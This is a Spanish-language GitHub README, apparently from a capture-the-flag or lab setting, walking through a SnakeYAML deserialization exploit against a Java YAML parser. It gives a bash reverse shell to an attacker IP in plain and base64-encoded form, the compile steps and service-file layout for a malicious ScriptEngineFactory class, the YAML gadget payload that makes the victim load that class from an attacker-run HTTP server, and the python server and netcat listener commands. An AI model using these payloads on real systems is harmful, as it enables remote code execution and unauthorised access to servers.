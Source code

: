 # yaml-parser-payload

Editaremos nuestro archivo AwesomeScriptEngineFactory.java
y añadiremos nuestra reverse_shell en bash pero codificado en base64.
```reverse
bash -i >& /dev/tcp/10.10.14.19/443 0>&1

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOS80NDMgMD4mMQ==}|{base64,-d}|{bash,-i}
```
Lo codificaremos en esta pagina http://www.jackson-t.ca/runtime-exec-payloads.html

Lo compilamos :

necesitaremos jdk instalado ojo!!!!

```bash
javac AwesomeScriptEngineFactory.java
```
Nos generara el archivo 'AwesomeScriptEngineFactory.class'. y lo introduciremos en la carpeta h1dr0.

La estructura del Payload tiene que ser asi para que el servidor haga la peticion y encuetre el archivo. 
```tree
 exploit /
  |-->      META-INF/services/javax.script.ScriptEngineFactory dentro de este archivo escribir esto -> h1dr0.AwesomeScriptEngineFactory/
  |-->      h1dr0/AwesomeScriptEngineFactory.class
```
Payload para ejecutar una reverse shell en un servidor yaml en java.

Esto lo pondremos en el servidor victima para que nos ejecute nuestro payload  con nuestra r_shell.
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://my_python_server/"]
  ]]
]
```
![](https://github.com/aquilino/yaml-parser-payload/blob/main/img/parser_web.jpg)

                                            !Nota!

Si quereis probar antes de poner el payload en el server de python ,lo probais sin nada y vereis las peticiones que hace el parser a nuestro server..

![](https://github.com/aquilino/yaml-parser-payload/blob/main/img/python%20server_404.jpg)

En nuestra terminal compartiremos un server con python para que se conecte nuestra victima hacia nosotros asi cargar el payload.
```bash
sudo python3 -m hhtp.server 80
```
![](https://github.com/aquilino/yaml-parser-payload/blob/main/img/python%20server.jpg)

```txt
------------------------------------------------------------------------------------
```

Al darle a parse en la web veremos en nuestro servidor que esta haciendo la peticion de los archivos y en otra shell tendremos el nc preparado

![](https://github.com/aquilino/yaml-parser-payload/blob/main/img/nc.jpg)

A tiny project for generating payloads for the SnakeYAML deserialization gadget (taken from https://github.com/mbechler/marshalsec):

thanks @marshalsec.



